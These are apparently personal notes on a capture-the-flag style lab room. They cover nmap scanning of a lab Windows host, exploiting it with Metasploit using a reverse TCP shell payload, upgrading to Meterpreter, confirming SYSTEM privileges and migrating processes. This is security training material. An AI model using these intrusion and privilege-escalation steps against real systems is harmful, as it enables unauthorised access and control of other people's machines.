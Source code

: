 **<span style="color: #151c2b;">Task 1:</span>**

<span style="color: #151c2b;">Scan the machine.</span>

&nbsp;**<span style="color: #151c2b;">How many ports are open with a port number under 1000?</span>**

nmap -A 10.10.46.2

![0612282d916ec4f0904797ac1da9ea32.png](resources/0612282d916ec4f0904797ac1da9ea32.png)

&nbsp;

<span style="color: #151c2b;">**What is this machine vulnerable to?**</span>

&nbsp;nmap --script=vuln 10.10.46.2

![76b33048bba8c009c9e795f3e8669f2f.png](../../../_resources/76b33048bba8c009c9e795f3e8669f2f.png)

**Task 2 Gain Access:**

Exploit the machine and gain a foothold.

Start [Metasploit -](https://tryhackme.com/module/metasploit)

**Q1: Find the exploitation code we will run against the machine. What is the full path of the code?** (Ex: exploit/........)

![0c021fa5c865c08d4cdc8f3a472e5415.png](../../../_resources/0c021fa5c865c08d4cdc8f3a472e5415.png)

**Q2: Show options and set the one required value. What is the name of this value?** (All caps for submission)

![2238a19ef523ca493b3993e018f15e8a.png](../../../_resources/2238a19ef523ca493b3993e018f15e8a.png)

![282ea7f7b9138891771b52d3165f5a99.png](../../../_resources/282ea7f7b9138891771b52d3165f5a99.png)

![6e5b0eb5dde0122d3a29a47343540cf2.png](../../../_resources/6e5b0eb5dde0122d3a29a47343540cf2.png)

**Q3: Usually it would be fine to run this exploit as is; however, for the sake of learning, you should do one more thing before exploiting the target. Enter the following command and press enter:**

`set payload windows/x64/shell/reverse_tcp`

With that done, run the exploit!

![d73cf8102c78daefc5584fd65f3a8cc2.png](../../../_resources/d73cf8102c78daefc5584fd65f3a8cc2.png)

&nbsp;

Q4: Confirm that the exploit has run correctly. You may have to press enter for the DOS shell to appear. Background this shell (CTRL + Z). If this failed, you may have to reboot the target VM. Try running it again before a reboot of the target.

**Task3: Escalate**

Escalate privileges, learn how to upgrade shells in <span style="color: inherit;">Metasploit</span>.

If you haven't already, background the previously gained shell (CTRL + Z). Research online how to convert a shell to Meterpreter shell in Metasploit. What is the name of the post module we will use?

![9b05b20d2eae0ebc45d4f2e07d140543.png](../../../_resources/9b05b20d2eae0ebc45d4f2e07d140543.png)

&nbsp;

![a50e30d30a97b316fa85fa798651e8e4.png](../../../_resources/a50e30d30a97b316fa85fa798651e8e4.png)

&nbsp;

![0cd22c65fa6fb16617975159a26276ed.png](../../../_resources/0cd22c65fa6fb16617975159a26276ed.png)

&nbsp;

Select this (use MODULE_PATH). Show options, what option are we required to change?

![9db2c06f5a67cf2cfb20e2b06dc5fd75.png](../../../_resources/9db2c06f5a67cf2cfb20e2b06dc5fd75.png)

Set the required option, you may need to list all of the sessions to find your target here.

![eaa30e575bbe8d88b1b866b7f0014088.png](../../../_resources/eaa30e575bbe8d88b1b866b7f0014088.png)

Run! If this doesn't work, try completing the exploit from the previous task once more.

&nbsp;

Once the meterpreter shell conversion completes, select that session for use.

Verify that we have escalated to NT AUTHORITY\\SYSTEM. Run getsystem to confirm this. Feel free to open a dos shell via the command 'shell' and run 'whoami'. This should return that we are indeed system. Background this shell afterwards and select our meterpreter session for usage again.

List all of the processes running via the 'ps' command. Just because we are system doesn't mean our process is. Find a process towards the bottom of this list that is running at NT AUTHORITY\\SYSTEM and write down the process id (far left column).

Migrate to this process using the 'migrate PROCESS_ID' command where the process id is the one you just wrote down in the previous step. This may take several attempts, migrating processes is not very stable. If this fails, you may need to re-run the conversion process or reboot the machine and start once again. If this happens, try a different process next time.

&nbsp;
